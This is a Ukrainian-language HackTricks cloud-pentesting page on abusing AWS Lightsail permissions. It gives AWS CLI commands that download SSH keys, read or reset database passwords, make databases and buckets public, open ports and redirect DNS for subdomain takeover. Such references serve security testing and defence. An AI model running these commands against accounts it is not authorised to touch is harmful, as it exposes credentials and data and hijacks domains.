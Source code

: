 # AWS - Привілеї в AWS Lightsail

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакінг-прийоми, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Lightsail

Для отримання додаткової інформації про Lightsail перегляньте:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Важливо зауважити, що Lightsail **не використовує ролі IAM, які належать користувачеві**, але належать керованому обліковому запису AWS, тому ви не можете використовувати цей сервіс для підвищення привілеїв. Однак **чутлива інформація**, така як код, ключі API та інформація про базу даних, може бути знайдена в цьому сервісі.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ця дозвіл дозволить вам отримати SSH-ключі для доступу до екземплярів:
```
aws lightsail download-default-key-pair
```
**Потенційний вплив:** Знайти чутливу інформацію всередині екземплярів.

### `lightsail:GetInstanceAccessDetails`

Ця дозвіл дозволить вам генерувати SSH-ключі для доступу до екземплярів:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині екземплярів.

### `lightsail:CreateBucketAccessKey`

Ця дозвіл дозволить вам отримати ключ для доступу до відра:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині сховища.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ця дозвіл дозволить вам отримати облікові дані для доступу до бази даних:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині бази даних.

### `lightsail:UpdateRelationalDatabase`

Ця дозвіл дозволить вам змінити пароль для доступу до бази даних:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Якщо база даних не є публічною, ви також можете зробити її публічною з цими дозволами за допомогою

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Потенційний вплив:** Знайти чутливу інформацію всередині бази даних.

### `lightsail:OpenInstancePublicPorts`

Ця дозвіл дозволяє відкривати порти до Інтернету.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:PutInstancePublicPorts`

Ця дозвіл дозволяє відкривати порти до Інтернету. Зверніть увагу, що виклик закриє будь-який відкритий порт, який не вказаний в ньому.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:SetResourceAccessForBucket`

Ці дозволи дозволяють надавати інстанціям доступ до відра без будь-яких додаткових облікових записів

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Потенційний вплив:** Потенційний новий доступ до відра з чутливою інформацією.

### `lightsail:UpdateBucket`

З цим дозволом зловмисник може надати своєму власному обліковому запису AWS доступ на читання відер або навіть зробити відра загальнодоступними для всіх:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Потенційний вплив:** Потенційний новий доступ до відра з конфіденційною інформацією.

### `lightsail:UpdateContainerService`

З цими дозволами зловмисник може надати доступ до приватних ECR з контейнерного сервісу
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Потенційний вплив:** Отримання чутливої інформації з приватного ECR

### `lightsail:CreateDomainEntry`

Атакувальник з цим дозволом може створити піддомен та спрямувати його на свою власну IP-адресу (захоплення піддомену), або створити запис SPF, який дозволить йому підробляти електронні листи від домену, або навіть встановити головний домен на свою власну IP-адресу.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

### `lightsail:UpdateDomainEntry`

Зловмисник з цим дозволом може створити піддомен та спрямувати його на свою власну IP-адресу (захоплення піддомену), або створити запис SPF, який дозволить йому підробляти електронні листи від домену, або навіть встановити головний домен на свою власну IP-адресу.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
